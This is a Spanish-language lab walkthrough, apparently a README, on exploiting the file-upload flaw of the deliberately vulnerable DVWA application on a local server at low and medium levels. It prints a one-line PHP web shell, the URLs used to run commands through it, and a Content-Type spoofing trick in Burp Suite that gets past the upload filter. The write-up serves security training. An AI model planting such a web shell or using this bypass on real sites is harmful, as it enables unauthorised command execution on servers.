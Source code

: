 # DVWA - File Upload Exploitation (LOW Level)

## Objetivo

Subir un archivo `.php` que se pueda ejecutar remotamente en el servidor.

### Pasos

1. Ir a:
   ```
   http://127.0.0.1:8081/dvwa/vulnerabilities/upload/
   ```

2. Crear un archivo llamado `shell.php` con el siguiente contenido:

   ```php
   <?php system($_GET['cmd']); ?>
   ```

Captura:

![Creacion del archivo](./Imagenes/Creacion_y_relleno_del_php.png)

[Shell.php](./shell.php)

3. Subir `shell.php` utilizando el formulario de carga.

Captura:

![Carga del archivo](./Imagenes/Seleccion_del_archivo_low.png)

4. Localizar el archivo subido en:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell.php
   ```


5. Ejecutar comandos desde la URL:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell.php?cmd=ls
   ```

Y ahora podremos observar que archivos hay como vemos en la siguiente captura:

![Resultado low](./Imagenes/Resultado_low.png)

---

#  DVWA - File Upload Exploitation (MEDIUM Level)

## Objetivo
Subir un archivo malicioso superando la restricción de extensiones.

### Pasos

1. Renombramos el archivo:

   ```bash
   mv shell.php shell2.php
   ```

2. Subir `shell2.php` usando el formulario de carga con burpsuite.
   Activaremos en el Burpsuite el proxy e intentaremos subir el Shell2.php, al tener activado el proxy se quedara la peticion en pausa.

   Vamos a subir el php aunque no podramos:

   ![Subida del Shell2](./Imagenes/subida_medium.png)

   Asi veremos la peticion:

   ![ProxyBurpsuite](./Imagenes/Proxyburpsuite.png)


3. Ahora enviaremos la peticion en el proxy al repeater, donde cambiaremos la el argumento del Content Type a lo siguiente:
   ```
   Content-Type: application/x-php ==> Content-Type: image/png
   ```
   Captura del cambio de atributo:
   
   ![Cambio del atributo](./Imagenes/Repeater_cambio_propiedades.png)

3. Acceder al archivo subido:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell2.php
   ```

4. Ejecutar comandos desde la URL:
   ```
   http://127.0.0.1:8081/dvwa/hackable/uploads/shell2.php?cmd=whoami
   ```
   Resultado del comando:

   ![Resultado del medium](./Imagenes/Resultado_del_medium.png)
---



